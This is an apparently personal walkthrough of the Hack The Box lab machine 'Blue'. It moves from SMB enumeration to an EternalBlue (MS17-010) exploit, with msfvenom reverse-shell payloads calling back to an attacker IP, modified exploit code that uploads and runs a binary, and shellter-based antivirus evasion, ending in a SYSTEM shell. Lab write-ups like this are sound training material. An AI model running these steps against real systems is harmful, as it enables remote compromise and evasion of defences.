 # [Blue](https://app.hackthebox.eu/machines/51)

Start with `nmap`:

```bash
# TCP deep scan
sudo nmap -sS --script "default,safe" -p1-65535 -oA tcp --open -Pn -sV 10.10.10.40 &
# TCP quick scan
sudo nmap -sS -sC -F --open -Pn -sV 10.10.10.40
# UDP quick scan
sudo nmap -sU -F --open -Pn -sV 10.10.10.40
```

The TCP quick `nmap` scan returns the following:

![nmap_tcp_quick](./blue/nmap_tcp_quick.png)

Looks like only SMB/NetBIOS are open. Check for open SMB shares:

```bash
ip=10.10.10.40
for share in $(smbclient -N -L //$ip | grep Disk | sed 's/^[ \t]*//g' | cut -d ' ' -f 1); 
do 
  echo "-- \\\\$ip\\$share --";
  smbclient -N \\\\$ip\\$share -c 'ls;quit'; 
done
```

This returns some interesting results:

![shares](./blue/shares.png)

The `Share` directory is empty and trying to create a file gives an `NT_STATUS_ACCESS_DENIED`. The `Users` share also gives this same error when trying to write to a file. The files listed in the share seem to be the contents of the `C:\Users` directory on the host. However, some directories are missing, like `Administrator`. Moving on...

Next look at the NetBIOS connection:

```bash
rpcclient -U '' -N 10.10.10.40 # empty username & no password
querydispinfo          # list users
enumdomusers           # list users
enumdomgroups          # list groups
enumdomains            # list domains
querydominfo           # domain info
lsaquery               # get SIDs
lsaenumsid             # get SIDs
lookupsids <sid>       # lookup SID by SID
lookupnames <username> # lookup SID by username
```

However, no interesting info about usernames or SIDs can be gathered:

![netbios](./blue/netbios.png)

The full TCP `nmap` results should be done by now and have an interesting entry:

![nmap_smb](./blue/nmap_smb.png)

It seems this host uses SMBv1, which has a known vulnerability MS17-010 (CVE-2017-0143):

- https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-0143

```bash
searchsploit ms17-010
```

![searchsploit](./blue/searchsploit.png)

Exploits 43970 & 41891 are boring because they use Metasploit :wink: Exploits 42030 & 41987 do not support the OS version from `nmap` for SMB OS discovery:

```
Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
```

 This leaves exploits 42031 & 42315:

- https://www.exploit-db.com/exploits/42315
- https://www.exploit-db.com/exploits/42031

Exploit 42031 does not look promising because it has the following text towards the top of the file:

```
The exploit might FAIL and CRASH a target system (depended on what is overwritten)
```

Exploit 42315 looks better with the following note:

```
The exploit should never crash a target (chance should be nearly 0%)
```

Looking at the code for 42315, it says it was tested on Windows 7 SP1 x64 and Windows 7 SP1 x86, which should cover this target machine! There are a few notes from the code though:

- `mysmb.py` is required:
  - https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/42315.py
- A username & password are required for named pipe enumeration in the `IPC$` share.

However after running the exploit just to test with `USERNAME` and `PASSWORD` empty, the following error is given:

```bash
# download required library
curl https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/42315.py -o mysmb.py
# copy exploit
searchsploit -m 42315
# run exploit
python 42315.py 10.10.10.40
```

![42315](./blue/42315.png)

It looks like haveing an empty username & password does not give easy access to a named pipe... After some more Googling, this repository becomes helpful:

- https://github.com/worawit/MS17-010

The main reason this is needed is because the MS17-010 provides kernel level access. This means normal shellcode from msfvenom will not work. Instead custom kernel shellcode is needed (https://github.com/worawit/MS17-010/tree/master/shellcode).

- https://root4loot.com/post/eternalblue_manual_exploit/

```bash
# clone repo
git clone https://github.com/worawit/MS17-010.git
# assemble x64 kernel shellcode
nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x64.asm -o ./x64_kernel.bin
# create x64 user shellcode
msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 \
    LPORT=6969 LHOST=10.10.14.23 EXITFUNC=thread -f raw -o x64_user.bin
# merge payloads
cat x64_kernel.bin x64_user.bin > x64.bin
# assemble x86 kernel shellcode
nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x86.asm -o ./x86_kernel.bin
# create x86 user shellcode
msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 \
    LPORT=6969 LHOST=10.10.14.23 EXITFUNC=thread -f raw -o x86_user.bin
# merge payloads
cat x86_kernel.bin x86_user.bin > x86.bin
# merge x86/x64 payloads since target arch is unknown
python MS17-010/shellcode/eternalblue_sc_merge.py x86.bin x64.bin payload.bin
# start listener 
nc -nvlp 6969
# run exploit for windows 7
python MS17-010/eternalblue_exploit7.py 10.10.10.40 payload.bin
```

However, running this does not work... UGH :disappointed: 

Looking back at the SMB shares, something interesting to note is that they allow for any random username and password combination:

```bash
# format is username%password
smbclient -L //10.10.10.40 -U 'dskmdsklmlkdsm%kldkldsnlkdsn'
```

![smb_no_creds](./blue/smb_no_creds.png)

Going back to the original exploit 42315 and setting the `USERNAME` and `PASSWORD` to something random produces the following:

```bash
 python2.7 42315.py 10.10.10.40
```

![working](./blue/working.png)

Okay, so the exploit says it worked and created a file called `c:\pwned.txt`, but it is better to verify. The `Users` share is likely from `C:\users`. So modifying the function `smb_pwn` in the exploit code to create the file at `c:\users\bubba.txt` becomes the following:

```python
def smb_pwn(conn, arch):
  smbConn = conn.get_smbconnection()
  print('creating file c:\\users\\pwned.txt on the target')
  tid2 = smbConn.connectTree('C$')
  fid2 = smbConn.createFile(tid2, '/users/bubba.txt')
  smbConn.closeFile(tid2, fid2)
  smbConn.disconnectTree(tid2)
```

After re-running the exploit:

![bubba](./blue/bubba.png)

Nice! Next, modify the function `smb_pwn` to use the `service_exec` function mentioned in the comments:

> smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
> service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
> Note: there are many methods to get shell over SMB admin session
> a simple method to get shell (but easily to be detected by AV) is
> executing binary generated by "msfvenom -f exe-service ..."

```python
def smb_pwn(conn, arch):
  smbConn = conn.get_smbconnection()
  print('[!!!] uploading payload ...')
  smb_send_file(smbConn, 'bubba.exe', 'C', '/bubba.exe')
  print('[!!!] starting remote process ...')
  service_exec(conn, 'cmd /c c:\\bubba.exe')
```

This will copy `bubba.exe` to the target machine at `c:\bubba.exe` and execute it. To generate the `bubba.exe` payload, it is better to try and avoid AV detection using [shellter](https://www.shellterproject.com/):

```bash
# generate raw payload to add to shellter
msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 \
    LPORT=6969 LHOST=10.10.14.23 EXITFUNC=thread -f raw -o shell.bin
# install wine x86
sudo dpkg --add-architecture i386
sudo apt update 
sudo apt upgrade
sudo apt install wine32
# install shellter
sudo apt install shellter
# locate normal windows binary to inject payload into
find / -iname whoami.exe 2>/dev/null
cp /usr/share/windows-resources/binaries/whoami.exe .
# locate and run shellter binary
find / -iname shellter.exe 2>/dev/null
cp /usr/share/windows-resources/shellter/shellter.exe .
# run shellter to encode payload
wine shellter.exe
```

Here are the arguments for the `shellter.exe` CLI:

- **NOTE:** The paths are from a Windows machine, but they can be changed to Linux ones :smile:

![shellter1](./blue/shellter1.png)

![shellter2](./blue/shellter2.png)

Now, start the listener and trigger the exploit:

```bash
# rename whoami.exe from shellter to bubba.exe for exploit
mv whoami.exe bubba.exe
# start listener 
nc -nvlp 6969
# run exploit
python 42315.py 10.10.10.40
```

And this returns a shell as SYSTEM:

![root](./blue/root.png)
